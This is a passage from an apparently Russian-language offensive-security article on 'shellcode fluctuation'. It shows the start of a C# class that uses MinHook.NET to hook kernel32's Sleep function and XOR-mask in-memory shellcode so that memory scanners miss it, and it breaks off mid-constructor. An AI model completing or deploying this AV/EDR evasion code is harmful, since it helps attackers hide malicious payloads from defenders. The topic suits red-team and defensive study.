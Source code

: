 [![vimeo-thumbnail](/assets/images/shellcode-fluctuation/vimeo-thumbnail.png)](https://vimeo.com/719398239)

Демо
{:.quote}

# Бонус. Реализация API Hooking с помощью MiniHook.NET

В качестве бонуса оставлю здесь реализацию класса флуктуатора, которая использует MiniHook.NET. Можешь сам оценить, сильно ли уменьшился объем кода.

```cs
class FluctuateShellcodeMiniHook
{
    // using MinHook; // https://github.com/CCob/MinHook.NET

    delegate void Sleep(uint dwMilliseconds);
    readonly Sleep sleepOrig;
    readonly HookEngine hookEngine;

    readonly uint fluctuateWith;
    readonly IntPtr shellcodeAddress;
    readonly int shellcodeLength;
    readonly byte[] xorKey;

    public FluctuateShellcodeMiniHook(uint fluctuate, IntPtr shellcodeAddr, int shellcodeLen)
    {
        hookEngine = new HookEngine();
        sleepOrig = hookEngine.CreateHook("kernel32.dll", "Sleep", new Sleep(SleepDetour));

        fluctuateWith = fluctuate;
        shellcodeAddress = shellcodeAddr;
```